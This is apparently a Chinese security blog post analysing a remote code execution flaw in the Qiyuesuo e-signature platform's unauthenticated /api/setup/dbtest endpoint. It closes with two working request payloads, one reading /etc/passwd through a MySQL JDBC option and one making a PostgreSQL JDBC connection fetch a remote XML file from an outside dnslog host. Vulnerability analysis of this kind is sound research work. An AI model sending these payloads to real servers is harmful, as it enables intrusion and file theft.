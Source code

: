 #  契约锁RCE分析  
原创 Kokoxca安全  Kokoxca安全   2025-06-19 05:36  
  
0x01.技术文章仅供参考学习，请勿使用本文中所提供的任何技术信息或代码工具进行非法测试和违法行为。若使用者利用本文中技术信息或代码工具对任何计算机系统造成的任何直接或者间接的后果及损失，均由使用者本人负责。本文所提供的技术信息或代码工具仅供于学习，一切不良后果与文章作者无关。使用者应该遵守法律法规，并尊重他人的合法权益。  
  
0x02 漏洞分析  
  
近期也是突然发现契约锁在网上爆出来存在rce漏洞，博主也好久没更新文章了浅浅的写一篇吧![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/assets/newemoji/LetMeSee.png "")  
  
  
言归正传这次爆出来的漏洞其实是契约锁最新更新了补丁，在补丁包中存在一个接口/setup/dbtest，根据补丁包中的接口进行源码分析。  
  
全局搜索/setup发现在  
classes/oss/com/qiyuesuo/config/ConsoleConfiguration[#ConsoleConfiguration中]()  
  
有的定义了接口是前台不需要鉴权的。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aYLtCGDrJ12k11xtJxVLG1gSmKes3nVZIicxPrFibuqsHhSEWv4H0FrnQSptz96UmIatmrT6upmVZUkMG04ichu7w/640?wx_fmt=png&from=appmsg "")  
  
接着全局搜索dbtest接口也就是这次的漏洞点。  
classes/oss/com/qiyuesuo/setup/SetupController#dbtest  
在代码中请求了一些数据库名，host，用户名等等，我们接着追check方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aYLtCGDrJ12k11xtJxVLG1gSmKes3nVZ9w9COmJhX8ZaRjEu9carYibt9vyBffeTsRdZib1DewVjE0calt3tY5uQ/640?wx_fmt=png&from=appmsg "")  
  
发现在check方法中调用validateDatabase方法去验证数据库，接着追validateDatabase方法看详细内容。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aYLtCGDrJ12k11xtJxVLG1gSmKes3nVZLreWonFKsfFMEdtYg1xxN3QAta2aHsicKa4pxyodsgJBIicwLfdjYASQ/640?wx_fmt=png&from=appmsg "")  
  
在validateDatabase方法中调用dbtest方法建立数据库连接。接着追dbtest方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aYLtCGDrJ12k11xtJxVLG1gSmKes3nVZZIpWDBWib81XnPUibpr1NMhtO7wtRkdehMysmM50Z7I2sfzELCiaJWOhw/640?wx_fmt=png&from=appmsg "")  
  
在追到dbtest方法处的时候就能清楚的看到是从databaseService获取数据库连接然后检查连接是否非空且有效等等然后追踪databaseService.getConnection方法直接就是我们常见的jdbc反序列化调用了这没什么好分析的了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aYLtCGDrJ12k11xtJxVLG1gSmKes3nVZsDZXnEibprlJc57KXOoBYdqAC6Ms7OaGEFpppRxicffZgbS4ev08dRoQ/640?wx_fmt=png&from=appmsg "")  
  
然后就是在契约锁中默认配置了一些数据库如mysql，PostgreSQL等等。针对去构造poc利用就行。  
  
0x03 漏洞利用  
  
  
MYSQL如下：  
```
/api/setup/dbtest?db=MYSQL&host=127.0.0.1%3A3308%2Ftest%3FallowLoadLocalInfile%3Dtrue%26allowUrlInLocalInfile%3Dtrue%26name%3D1%26username%3Dfileread_%2Fetc%2Fpasswd%26password%3D1&port=1&name=1&username=fileread_/etc/passwd&password=1
```  
  
  
PostgreSQL如下：  
```
/api/setup/dbtest?db=POSTGRESQL&host=localhost&port=5321&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxx.dnslog.cn%2F1%2Exml
```  
  
就目前来看是更新完补丁能打很少了。  
  
  
  
